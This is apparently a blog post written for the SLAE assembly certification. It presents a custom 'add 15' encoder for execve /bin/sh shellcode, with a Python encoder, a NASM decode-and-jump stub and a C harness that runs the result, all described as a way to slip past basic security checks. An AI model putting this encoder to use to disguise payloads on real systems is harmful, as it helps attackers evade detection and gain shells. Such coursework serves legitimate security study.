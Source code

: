 # Assignment 4 - Custom Encoder

It's a good day to be back in the lab. I'm stuck chugging some solid H20 today while taking a look at writing custom encoders for our shellcode. Today we'll look at the difference in encoding vs encrypting, and how to make a simple custom encoder to bypass basic security mechanisms.


## Problem Statement

* Create a custom encoding scheme like the "Insertion Encoder" shown to us
* Write PoC using execve-stack as the shellcode to encoe with your schema and execute

Let's get right into it.

## Encoding vs. Encrypting

Before we start I just want to make clear the differences between encoding something, and encrypting something. When you encode data, you transform it into another format using a scheme that is publicly available and that allows anyone to decode the information. With encryption, you modify data in such a way that only individuals with known values can reverse the transformation.

An example of encoding would be base64 encoding. Anyone can look up how to base64 decode something to access the originally encoded data. An example of encryption would be a rotational cipher, in which each character of a piece of data is rotated X number of times. This means that whoever is decrypting the data MUST know the value of X in order to retrieve the original data.

## Insertion Encoder

During the SLAE, an example was given called the insertion encoder. This encoder would take a set of hex data, and insert the value `0xAA` after each hex value in the given data. See the below transformation:

`0x12 0xAB 0xAC 0x01`

`0x12 0xAA 0xAB 0xAA 0xAC 0xAA 0x01 0xAA`

It's a pretty simple concept. And to get the original data back out, one would just traverse the data using 2 pointers, and moving the characters back to their original place!


## Custom Encoder

For this assignment we had to come up with a custom encoding scheme. I like the number 15, so I will publicly declare that the _CoffeNCoding_ scheme will take each data element and add the value of 15 to it in order to get an encoded version of the data.

You may be confused as to why this isn't exactly the same as the rotational cipher (which is an encryption algorithm) that I mentioned before. The main difference here is that I am publicly declaring this as an encoding scheme, in which everyone knows the value of which to add. If the value 15 was a secret, then this would be considered an encryption scheme.


#### Building an Encoder

We'll use python to build a quick encoder for our execve-stack shellcode.

**_CoffeeNcoder.py_**

```python
#!/usr/bin/python

# Python Coffee Encoder

COFFEE=15
COFFEE_HEX='0f'

# execve-stack /bin/sh
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded = ""
encoded2 = ""
stack = []
new_row = []
row = 0

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
    encoded += '\\x'
    encoded += '%02x' % (x+15)

    encoded2 += '0x'
    encoded2 += '%02x,' % (x+15)

    # Print these in sets of 4 so we can easily paste to push onto stack
    new_row.insert(0, '%02x' % (x+COFFEE))
    if len(new_row) == 4:
        stack.insert(0,new_row)
        new_row = []
        row += 1

if len(new_row):
    for i in range(0, 4-len(new_row)):
        new_row.insert(0, '%02x' % COFFEE)
    stack.insert(0, new_row)
    row += 1

# We need to pad the last row with null (coffee_hex) values
if not stack[0][0] == COFFEE_HEX:
    new_row = []
    for i in range(0, 4):
        new_row.insert(0, '%02x' % COFFEE)
    stack.insert(0, new_row)
    row += 1

print('{}\n'.format(encoded))

print('{}\n'.format(encoded2))

for i in range(0, row):
    print('0x{}'.format(''.join(stack[i])))

print '\nLen: %d' % len(bytearray(shellcode))
```

You'll notice that we pad our result with the `0x0F` value. This is so that our decoder will know when to stop decoding. When our decoder generates a value of 0 (`0x0F` - `0x0F`), it will know it has reached the end of the decoding process.

Giving it a test run, we see that our execve-stack shellcode transforms as follows:

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

`\x40\xcf\x5f\x77\x3e\x3e\x82\x77\x77\x3e\x71\x78\x7d\x98\xf2\x5f\x98\xf1\x62\x98\xf0\xbf\x1a\xdc\x8f`


#### Building the Decoder

Now that we have our encoded shellcode, we need to be able to decode it and pass execution to it. The basic algorithm for this will be to start at the beginning, and subtract 15 from each element until we hit a value that generates 0. Once this happens, pass the execution to the point where we started decoding. Let's see what that looks like in assembly.

**_assignment4.nasm_**

```asm
; Filename: assignment4.nasm
; Author:  Adam Brown
; Website:  https://coffeegist.com
;
;
; Purpose: Create a custom encoder/decoder for the SLAE exam

global _start

section .text
_start:

  ; Push shellcode onto stack in reverse order
  push 0x0f0f0f8f
  push 0xdc1abff0
  push 0x9862f198
  push 0x5ff2987d
  push 0x78713e77
  push 0x77823e3e
  push 0x775fcf40

  mov esi, esp ; Get address of first byte of shellcode
  mov eax, esi ; Save it

  jmp short decode ; Start decoding from first byte

decoder_loop:
  inc esi

decode:
  sub byte [esi], 0xf
  jnz short decoder_loop

  jmp eax  ; Jump to first byte of decoded shellcode
```


Here we see that we push our shellcode onto the stack, and then save a pointer to the top of the stack in eax. Now, we proceed to move through our shellcode, subtracting `0xF` until the zero flag is set. When this happens, we jump to eax, which is pointing to the first byte of our shellcode.


#### Execution

All that's left is to generate our full shellcode with the decoder stub, and throw it in our C program for a simulated code execution exploit.


**_shellcode.c_**

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x68\x8f\x0f\x0f\x0f\x68\xf0\xbf\x1a\xdc\x68\x98\xf1\x62\x98\x68\x7d\x98\xf2
\x5f\x68\x77\x3e\x71\x78\x68\x3e\x3e\x82\x77\x68\x40\xcf\x5f\x77\x89\xe6\x89
\xf0\xeb\x01\x46\x80\x2e\x0f\x75\xfa\xff\xe0";

void main() {
  printf("Shellcode Length:  %d\n", strlen(code));

  int (*ret)() = (int(*)())code;

  ret();
}
```

## Wrapping Up

This was a fairly simple assignment, but one that could be leveraged to beat certain systems in a pinch! This technique could be expounded on quite a bit, but I'll leave that as an exercise to you! Have fun, grind responsibly, and happy hacking!


###### SLAE Exam Statement

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1158
